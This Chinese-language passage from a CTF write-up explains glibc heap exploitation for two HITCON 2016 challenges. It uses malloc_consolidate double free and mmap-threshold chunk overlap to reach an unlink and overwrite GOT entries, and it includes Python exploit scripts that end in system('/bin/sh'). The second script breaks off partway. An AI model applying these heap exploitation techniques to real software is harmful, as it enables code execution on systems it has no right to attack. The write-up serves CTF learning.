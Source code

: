 显然这个 huge 就是我们漏洞利用的核心。实际上，huge 的范围属于 large bin，在申请这么大的 chunk 时如果 unsorted bin 中没有满足条件的，就会触发 `malloc_consolidate()`，使 fastbin 中的 chunk 合并进入 unsorted bin，最终根据合并后的大小进入 small bin 或 large bin。那么我们不妨先申请一个 small，然后申请 big 防止 small 被释放时与 top chunk 合并，再释放 small。此时 small 进入 fastbin，再申请 huge 即可让 small 进入到 small bin。

由于这时 small 已经不处于 fastbin 链表头了，所以再次释放并不会出错，造成 double free。这样之后在 small 内伪造 chunk 并 unlink 劫持 GOT 表即可。

```python
add(1)
add(2)
delete(1) # 1->fastbin
add(3) # consolidate,1->unsorted bin->smallbin
delete(1)

small_secret = 0x6020d0
fd = small_secret - 0x18
bk = small_secret - 0x10
payload = flat(0,0x21,fd,bk,0x20)
add(1,payload)
delete(2)

# ?,big,huge,small,big_flag,huge_flag,small_flag
payload = flat(0,elf.got['atoi'],elf.got['puts'],elf.got['free']) + p32(1)*3
edit(1,payload)
edit(1,p64(elf.plt['puts'])) # free -> puts
delete(2)
atoi = uu64(r(6))
system,binsh = ret2libc(atoi,'atoi')
edit(1,p64(system))
add(2,'/bin/sh\x00')
delete(2)
```

### secretHolder_hitcon_2016
类似上一题，不过 huge 可以修改和删除了。由于 huge 非常大，分配时会调用 `mmap()`，但是当释放掉 huge 再申请时，`mmap_threshold` 已经变得和 huge 一样大，此时分配 huge 使用的是 `brk()`，因此 huge 被分配到了堆上。

利用这个特性，我们可以先令 small 和 huge 地址重合，随后在下面垫上 big。在 small 里伪造堆块并释放 big，触发 unlink，剩余的工作就和上一题一模一样了。


```python
def add(type,content='a'):
	sla('Renew secret\n','1')
	sla('Huge secret\n',str(type))
	sa(': \n',content)
def delete(type):
	sla('Renew secret\n','2')
	sla('Huge secret\n',str(type))
def edit(type,content):
	sla('Renew secret\n','3')
	sla('Huge secret',str(type))
	sa(': \n',content)

add(1)
add(2)
delete(1)
delete(2)
add(3)
delete(3) # mmap threshold +++
add(3) # brk()
delete(1)
add(1) # small <-> huge
add(2)

small = 0x6020b0
fd = small-0x18
```